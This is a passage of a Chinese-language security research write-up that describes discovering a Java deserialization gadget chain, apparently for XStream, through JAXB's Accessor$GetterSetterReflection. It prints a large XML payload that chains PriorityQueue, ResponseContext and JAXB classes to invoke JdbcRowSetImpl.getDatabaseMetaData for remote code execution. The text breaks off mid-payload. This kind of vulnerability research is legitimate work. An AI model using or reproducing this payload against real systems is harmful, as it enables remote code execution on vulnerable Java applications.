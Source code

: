 观察Accessor$GetterSetterReflection.set函数可以发现，bean和value可以是任意类型，好像这条链是有戏的。

![image-20210119143716079](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/145011-298548.png)

再回到上一步的startPacking函数，可以看到value被强制转换为了Collection 。函数入参确定的情况下，可操作性太少。

![image-20210119144002491](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/145012-498142.png)

正当准备放弃的时候，看到了Accessor$GetterSetterReflection.get函数，与set函数不同的是，反射执行的是无参函数。然后再看到了调用链中NullSafeAccessor.get，都是Accessor类型，感觉可以做个替换（类型擦除的原因）。打开经过一番尝试之后就成功了。

![image-20210119144148710](https://raw.githubusercontent.com/V3geB1rd/ImageCloud/main/typora202103/01/145015-375704.png)

接下来就是如何利用的问题，反射无参函数想要RCE，在ProcessBuilder被禁止的情况下，很容易想到的就是之前java反序列化中被经常利用的JdbcRowSetImpl，payload如下：

```xml
<java.util.PriorityQueue serialization="custom">
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
            <comparator class="sun.awt.datatransfer.DataTransferer$IndexOrderComparator">
                <indexMap class="com.sun.xml.internal.ws.client.ResponseContext">
                    <packet>
                        <message class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart">
                            <dataSource class="com.sun.xml.internal.ws.message.JAXBAttachment">
                                <bridge class="com.sun.xml.internal.ws.db.glassfish.BridgeWrapper">
                                    <bridge class="com.sun.xml.internal.bind.v2.runtime.BridgeImpl">
                                        <bi class="com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl">
                                            <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                                            <uriProperties></uriProperties>
                                            <attributeProperties></attributeProperties>
                                            <inheritedAttWildcard class="com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection">
                                                <getter>
                                                    <class>com.sun.rowset.JdbcRowSetImpl</class>
                                                    <name>getDatabaseMetaData</name>
                                                    <parameter-types/>
                                                </getter>
                                            </inheritedAttWildcard>
                                        </bi>
                                        <tagName></tagName>
                                        <context>
                                            <marshallerPool class="com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1">
                                                <outer-class reference="../.."/>
                                            </marshallerPool>
                                            <nameList>
                                                <nsUriCannotBeDefaulted>
                                                    <boolean>true</boolean>
                                                </nsUriCannotBeDefaulted>
                                                <namespaceURIs>
                                                    <string>1</string>
                                                </namespaceURIs>
                                                <localNames>
                                                    <string>UTF-8</string>
                                                </localNames>
                                            </nameList>
                                        </context>
                                    </bridge>
                                </bridge>
```
